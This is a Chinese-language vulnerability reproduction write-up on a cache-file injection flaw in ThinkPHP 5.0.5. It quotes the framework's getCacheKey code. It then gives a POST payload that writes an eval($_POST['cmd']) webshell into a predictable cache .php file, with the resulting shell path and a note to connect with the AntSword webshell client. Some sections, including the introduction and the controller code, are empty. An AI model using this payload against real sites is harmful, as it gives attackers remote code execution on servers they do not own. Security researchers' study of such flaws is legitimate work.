

Thinkphp 5.0.5 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 5.0.5

三、复现过程
------------

### 漏洞分析

-   漏洞代码与3.2.3差不多，不一样的在缓存目录

```{=html}
<!-- -->
```
-   protected function getCacheKey($name)
            {
                $name = md5($name);
                if ($this->options['cache_subdir']) {
                    // 使用子目录
                    $name = substr($name, 0, 2) . DS . substr($name, 2);
                }
                if ($this->options['prefix']) {
                    $name = $this->options['prefix'] . DS . $name;
                }
                $filename = $this->options['path'] . $name . '.php';
                $dir      = dirname($filename);
                if (!is_dir($dir)) {
                    mkdir($dir, 0755, true);
                }
                return $filename;
            }

```{=html}
<!-- -->
```
-   在index控制器写如下代码：


-   之后访问
    `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
-   最终在
    `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：



之后访问蚁剑
`http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`


### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

-   `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
